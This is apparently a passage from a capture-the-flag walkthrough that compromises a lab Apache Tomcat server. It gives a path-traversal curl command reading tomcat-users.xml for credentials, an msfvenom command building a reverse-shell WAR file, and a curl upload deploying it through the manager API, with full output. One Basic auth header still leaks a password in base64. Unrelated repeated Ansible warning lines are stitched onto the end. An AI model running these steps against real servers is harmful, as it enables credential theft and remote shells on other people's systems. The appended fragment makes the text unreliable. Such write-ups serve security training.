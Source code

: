 ```shell
$ curl --path-as-is http://10.10.71.124:8888/../../../../../../../../../../../../../../../../../../../../opt/tomcat/conf/tomcat-users.xml
<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">

  <role rolename="manager-script"/>
  <user username="tomcat" password="[REDACTED]" roles="manager-script"/>

</tomcat-users>
```

Thankfully, we obtain some credentials for the user `tomcat` ! We will instead try to connect to the **Tomcat Manager** located at `http://<ip>:8080/manager/html`. 

However, this will not work because our user has the `manager-script` role. This role only allows to use the tomcat **scripting API** at `/manager/text/`.

What we will be doing is creating a reverse shell using **msfvenom** as a WAR file. What is a WAR file and why ? 

A WAR file (Web Application Archive) is a packaged file format used to distribute and deploy web applications in **Java-based servers**, such as **Apache Tomcat** (exactly what we deal with!). In security, attackers can craft WAR files containing malicious code such as JSP web shells to execute arbitrary commands.

Let’s generate our payload :

```shell
$ msfvenom -p java/shell_reverse_tcp LHOST=$LOCAL LPORT=4444 -f war -o
 revshell.war
Payload size: 13034 bytes
Final size of war file: 13034 bytes
Saved as: revshell.war
```

Now, we can upload the reverse shell using our scripting role with the following command :

```shell
curl -v -u tomcat:[PASSWORD] --upload-file revshell.war "http://10.10.71.124:8080/manager/text/deploy?path=/foo&update=true"
*   Trying 10.10.71.124:8080...
* Connected to 10.10.71.124 (10.10.71.124) port 8080 (#0)
* Server auth using Basic with user 'tomcat'
> PUT /manager/text/deploy?path=/foo&update=true HTTP/1.1
> Host: 10.10.71.124:8080
> Authorization: Basic dG9tY2F0Ok9QeDUyazUzRDhPa1RacHg0ZnI=
> User-Agent: curl/7.88.1
> Accept: */*
> Content-Length: 13034
> Expect: 100-continue
>
< HTTP/1.1 100
* We are completely uploaded and fine
< HTTP/1.1 200
< Cache-Control: private
< X-Frame-Options: DENY
< X-Content-Type-Options: nosniff
< Content-Type: text/plain;charset=utf-8
< Transfer-Encoding: chunked
< Date: Mon, 06 Jan 2025 21:37:53 GMT
<
OK - Deployed application at context path [/foo]
* Connection #0 to host 10.10.71.124 left intact
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-